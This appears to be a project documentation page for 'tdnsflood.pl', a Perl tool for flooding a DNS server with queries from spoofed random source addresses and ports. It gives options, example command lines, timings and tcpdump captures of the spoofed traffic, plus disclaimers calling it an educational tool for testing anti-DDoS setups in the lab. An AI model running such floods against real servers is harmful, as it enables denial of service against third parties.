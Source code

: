 # Introduction #

This program allows you to send randomly created DNS requests from random IP adresses and random source ports. You can test your anti-ddos solution with this perl script.


# Required Packages #

  * Net::RawIP
  * Net::DNS::Packet/Net/DNS/Packet.pm
  * Getopt::Long/Long.pm
  * Threaded Perl

# Details #

# Defaults #

  * domain-name is "example.com"
  * source-port is 1453
  * Randomize domain-name is disabled
  * Randomize source port is disabled
  * Randomize source address is disabled
  * count is 10000.
  * Random-id is disabled.
  * thread-count is 2.

# Usage Guidelines #
  * domainname parameter is ignored if random-name parameter is specified.
  * random-source-address parameter is ignored if source-addr is specified.
  * random-source-port parameter is ignored if source-port is specified.
  * random-id is ignored if random-name is specified.


# Warnings and Disclaimers #
  * Educational purpose only.
  * Flooding third-party hosts or networks is commonly considered a criminal activity.
  * Flooding your own hosts or networks is usually a bad idea.
  * Higher-performace flooding solutions should be used for stress/performance tests.
  * Use primarily in lab environments for DDoS tests.

# Examples #
### Example 1 ###
  * Randomize source address
  * Randomize source port
  * Send 1000 requests per thread
  * Use 8 threads.

# time ./tdnsflood.pl --domain-name=mydomain.dom --random-source-address --random-source-port --count=1000 --thread-count=8 my\_DNS\_Server-IP

Output:
```

Dest DNS Server IP: 10.10.10.10
Domain Name: mydomain.com
Source IP: Random Port: Random
Count: 8 x 1000 = 8000


Done...
```

On my test server (Quad Core Xeon 3.80Ghz), RHEL running this command takes
```
real    0m1.213s
user    0m3.031s
sys     0m0.212s
```
Tcpdump Output:
```
12:59:45.751785 IP 231.56.230.68.44855 > 10.10.10.10.53:  *51661*+ A? *mydomain.com*. (32)
12:59:45.751999 IP 0.200.235.180.45258 > 10.10.10.10.53:  *51661*+ A? *mydomain.com*. (32)
12:59:45.752213 IP 212.75.237.207.48360 > 10.10.10.10.53:  *51661*+ A? *mydomain.com*. (32)
12:59:45.752432 IP 229.110.28.105.11062 > 10.10.10.10.53:  *51661*+ A? *mydomain.com*. (32)
12:59:45.752647 IP 2.53.65.60.60835 > 10.10.10.10.53:  *51661*+ A? *mydomain.com*. (32)
12:59:45.752862 IP 16.5.7.207.52674 > 10.10.10.10.53:  *51661*+ A? *mydomain.com*. (32)
12:59:45.753075 IP 29.5.33.4.31257 > 10.10.10.10.53:  *51661*+ A? *mydomain.com*. (32)
12:59:45.753290 IP 194.174.65.179.51205 > 10.10.10.10.53:  *51661*+ A? *mydomain.com*. (32)
12:59:45.753657 IP 14.232.88.203.12678 > 10.10.10.10.53:  *51661*+ A? *mydomain.com*. (32)
```

### Example 2 ###
  * Randomize source address
  * Randomize source port
  * Randomize DNS query ID
  * Send 1000 requests per thread
  * Use 8 threads

# time ./tdnsflood.pl --domain-name=mydomain.com --random-id --random-source-address --random-source-port --count=1000 --thread-count=8 10.10.10.10

this command takes
```
real    0m2.141s
user    0m6.455s
sys     0m0.263s
```

tcpdump output:

```
16:16:38.693244 IP 249.102.166.151.8586 > 10.10.10.10.53:  812+ A? *mydomain.com*. (32)
16:16:38.693890 IP 219.178.18.194.35050 > 10.10.10.10.53:  49612+ A? *mydomain.com*. (32)
16:16:38.694566 IP 53.2.91.192.25436 > 10.10.10.10.53:  45012+ A? *mydomain.com*. (32)
16:16:38.695211 IP 141.191.155.191.5425 > 10.10.10.10.53:  33609+ A? *mydomain.com*. (32)
16:16:38.695880 IP 157.129.35.186.58334 > 10.10.10.10.53:  60595+ A? *mydomain.com*. (32)
16:16:38.696538 IP 163.226.221.96.8135 > 10.10.10.10.53:  54834+ A? *mydomain.com*. (32)
16:16:38.697371 IP 127.255.97.118.48338 > 10.10.10.10.53:  22558+ A? *mydomain.com*. (32)
16:16:38.698019 IP 87.247.9.70.40412 > 10.10.10.10.53:  44244+ A? *mydomain.com*. (32)
16:16:38.698694 IP 169.201.76.30.35742 > 10.10.10.10.53:  64919+ A? *mydomain.com*. (32)
```

### Example 3 ###
  * Randomize source address
  * Randomize source port
  * Randomize DNS query ID
  * Send 2000 requests per thread
  * Use 4 threads.

```
# time ./dnsfloodt_v3.pl --domain-name=mydomain.com --random-id --random-source-address --random-source-port --count=2000 --thread-
count=4 10.10.10.10
Dest DNS Server IP: 10.10.10.10
Domain Name: mydomain.com
Source IP: Random Port: Random
Count: 4 x 2000 = 8000


Done...


real    0m2.335s
user    0m6.328s
sys     0m0.207s

```
### Example 4 ###
  * Send 2000 requests per thread
  * Use 4 thread
```
# time ./tdnsfloodt.pl --domain-name=mydomain.com    --count=2000 --thread-count=4 10.10.10.10
Dest DNS Server IP: 10.10.10.10
Domain Name: mydomain.com
Source IP:  Port: 1453
Count: 4 x 2000 = 8000


Done...

real    0m0.374s
user    0m0.494s
sys     0m0.091s
```

# Contact #
Talo Pien
talopien {at} gmail dot com

# Thanks #
Special thanks to **dnsflood.pl** owner.